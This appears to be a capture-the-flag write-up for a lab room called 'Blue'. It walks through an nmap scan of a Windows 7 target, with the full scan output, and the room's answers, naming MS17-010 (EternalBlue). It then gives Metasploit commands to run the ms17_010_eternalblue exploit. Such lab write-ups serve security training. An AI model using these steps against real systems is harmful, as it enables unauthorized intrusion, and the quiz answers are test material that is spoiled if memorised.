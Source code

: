 # Blue
#### Hack into a Windows machine, leveraging common misconfigurations issues.
#### [Room Link](1)

## Tasks
1. Deploy the Machine and connect to our network
2. Recon
  Run nmap scan `nmap -sV -sC -Pn -oN blue_nmap.txt 10.10.125.90` and get the outputs
  ```
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-19 11:00 EDT
Nmap scan report for 10.10.125.90
Host is up (0.13s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-03-19T15:01:49+00:00; +1s from scanner time.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h15m01s, deviation: 2h30m00s, median: 1s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:12:54:7c:8d:b8 (unknown)
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-03-19T10:01:44-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-03-19T15:01:44
|_  start_date: 2020-03-19T14:56:37
  ```
  2. How many ports are open with a port number under 1000?
    3
  3. What is this machine vulnerable to?
    MS17-010 (EternalBlue)
3. Task #2 Gain access
  1. Boot Metasploit
    `msfconsole` takes a bit to load.
    `search blue` find the correct EternalBlue exploit
    `use exploit/windows/smb/ms17_010_eternalblue`
    use `show options` to see what is needed
    `set [RHOST]` with the the room ip and then `exploit` when ready.